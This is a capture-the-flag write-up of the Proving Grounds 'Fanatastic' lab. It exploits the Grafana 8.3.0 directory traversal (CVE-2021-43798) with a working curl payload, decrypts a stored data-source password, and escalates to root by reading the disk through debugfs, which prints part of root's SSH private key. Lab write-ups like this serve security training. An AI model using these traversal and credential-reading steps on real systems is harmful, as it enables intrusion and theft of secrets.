 ```yaml
---
title: "Proving grounds Practice: Fanatastic"
layout: post
date: 2023-10-03 01:00
categories: writeup
---
```


Proving grounds Practice - Fanatastic CTF writeup.

## Nmap

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1994b952225ed0f8520d363b448bbcf (RSA)
|   256 0f448badad95b8226af036ac19d00ef3 (ECDSA)
|_  256 32e12a6ccc7ce63e23f4808d33ce9b3a (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2Fnice%2520ports%252C%2FTri%256Eity.txt%252ebak; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Tue, 03 Oct 2023 14:48:53 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
```

## PORT: 3000 - open

Grafana login page: http://192.168.194.181:3000/login

Grafana version - v8.3.0 is vulnerable to [Grafana 8.3.0 - Directory Traversal and Arbitrary File Read](https://www.exploit-db.com/exploits/50581). Run the exploit to read the local files.

Read `/etc/passwd` to know about the users in the system, `/etc/grafana/grafana.ini` to extract the secret that's been used to encrypt the grafana password. Finally, read `/var/lib/grafana/grafana.db` which contains the encrypted data source password.

User below curl command to download the `grafana.db` file.

```sh
naveenj@hackerspace:|11:12|~/proving_grounds/Fanatastic/files$ curl  --path-as-is http://192.168.194.181:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db -O grafana.db
```

Open the file in sqlite and click Browse Data select the `data_source` tab and copy the basic auth detials.

```text
secret_key = SW2YcwTIb9zpOOhoPsMm
basicAuthPassword = anBneWFNQ2z+IDGhz3a7wxaqjimuglSXTeMvhbvsveZwVzreNJSw+hsV4w==
```

Exploit to decrypt the password [CVE-2021-43798](https://github.com/jas502n/Grafana-CVE-2021-43798). Make changes to the code accordingly and run it.

```sh
naveenj@hackerspace:|11:19|~/proving_grounds/Fanatastic/files/Grafana-CVE-2021-43798$ go run AESDecrypt.go 
[*] grafanaIni_secretKey= SW2YcwTIb9zpOOhoPsMm
[*] DataSourcePassword= anBneWFNQ2z+IDGhz3a7wxaqjimuglSXTeMvhbvsveZwVzreNJSw+hsV4w==
[*] plainText= SuperSecureP@ssw0rd


[*] grafanaIni_secretKey= SW2YcwTIb9zpOOhoPsMm
[*] PlainText= jas502n
[*] EncodePassword= NDAyQzFWQURLMIs9DT7F3U/R56XpIjb4tPONCv10Og==
naveenj@hackerspace:|11:19|~/proving_grounds/Fanatastic/files/Grafana-CVE-2021-43798$
```

**Credentials**: `sysadmin:SuperSecureP@ssw0rd`

The username was found in the `/etc/passwd` file. SSH to the machine using the credentials to obtain initial foothold.


## Privilege Escalation

Upon checking for exploitation the user `sysadmin` has permission to the disk.

```sh
uid=1001(sysadmin) gid=1001(sysadmin) groups=1001(sysadmin),6(disk)
```

Knowing the user is part of the disk group, the enumeration of the entire disk with root privilege is achievable. We also have full read-write access to the disk block files, so we can extricate these or write arbitrary data to them. With the disk group, we are effectively root, just in a roundabout way. We will explore the partition where the `/` (root) directory is mounted on in this case `/dev/sda2`.

```sh
sadmin@fanatastic:~$ df -h      #check for mounted disks
Filesystem      Size  Used Avail Use% Mounted on
udev            445M     0  445M   0% /dev
tmpfs            98M  1.1M   97M   2% /run
/dev/sda2       9.8G  5.7G  3.7G  61% /         #expoitable
tmpfs           489M     0  489M   0% /dev/shm
tmpfs           5.0M     0  5.0M   0% /run/lock
tmpfs           489M     0  489M   0% /sys/fs/cgroup
/dev/loop0       71M   71M     0 100% /snap/lxd/21029
/dev/loop1       56M   56M     0 100% /snap/core18/2284
/dev/loop2       62M   62M     0 100% /snap/core20/1328
/dev/loop3       68M   68M     0 100% /snap/lxd/21835
/dev/loop4       56M   56M     0 100% /snap/core18/2128
/dev/loop5       33M   33M     0 100% /snap/snapd/12883
/dev/loop6       44M   44M     0 100% /snap/snapd/14549
tmpfs            98M     0   98M   0% /run/user/1001
```

### Exploitation

```sh
sysadmin@fanatastic:~$ debugfs /dev/sda2
debugfs 1.45.5 (07-Jan-2020)
debugfs:  cd /root
debugfs:  cat proof.txt
1583█████████████████████████
debugfs:
```

In order to get a root shell read the `id_rsa` key file located on `/root/.ssh/` folder and SSH to the root user.

```sh
ebugfs:  cat /root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAz1L/rbeJcJOc5T4Lppdp0oVnX0MgpfaBjW25My3ffAeJTeJwM1/R
YGtnByjnBAisdAsqctvGjZL6TewN4QNM0ew5qD2BQUU38bvq1lRdvbaD1m+WZkhp6DJrbi
42MKCUeTMY5AEPBPe4kHBN294BiUycmtLzQz5gJ99AUSQa59m6QJso4YlC7OCs7xkDAxSJ
pE56z1yaiY+y4l2akIxbAz7TVmJgRnhjJ4ZRuV2TYuSolJiSNeUyIUTozfRKl56Zs8f/QA
4Pd9AvSLZPN+s/INAULdxzgV3X9xHYh2NfRe8hw1Ju9OeJZ9lqQNBtFrit0ekpk75CJ2Z6
AMDV5tNlEcixwf/nMhjQb7Q/Oh4p7ievBk47f5t2dKlTsWw4iq1AX3FVA65n2TfD6cNISj
mxfQvXzMTPrs8KO7pHzMVQZZukOIwOEKwuZfNxIg4riGQvy4Cs+3c4w022UJ8oH36itgjr
pa4Ce+uRomYgRthDLaTNmk52TbZl0pg8AdDXB0SbAAAFgCd1RWkndUVpAAAAB3NzaC1yc2
.....
```

**Root Obtained**

```sh
naveenj@hackerspace:|21:58|~/proving_grounds/Fanatastic/files$ chmod 600 id_rsa #apply permission
nveenj@hackerspace:|21:59|~/proving_grounds/Fanatastic/files$ ssh root@192.168.192.181 -i id_rsa #ssh to root
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-97-generic x86_64)
The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Mar  1 18:46:45 2022
root@fanatastic:~# 
```

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).